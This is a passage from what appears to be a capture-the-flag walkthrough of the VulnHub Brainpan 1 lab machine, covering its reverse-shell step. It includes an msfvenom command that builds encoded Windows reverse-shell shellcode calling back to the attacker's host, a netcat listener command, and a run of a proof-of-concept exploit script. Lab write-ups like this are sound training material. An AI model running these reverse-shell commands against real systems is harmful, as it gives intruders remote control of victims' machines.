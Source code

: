 ### Reverse Shell

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/vulnhub/brainpan-1)

Create shellcode with msfvenom

``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.11.140 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "x00"
```

Open listener in Kali machine

``` bash
sudo nc -nvlp 443
```

Execute `poc.py` file

``` txt
┌──(Hades㉿192.168.11.140)-[0.6:20.8]~/walkthrough/vulnhub/brainpan-1
└─$ python poc.py 192.168.11.135
```

![](images/22.png)

Back to the Brainpan Server, and execute `poc.py`.

![](images/23.png)
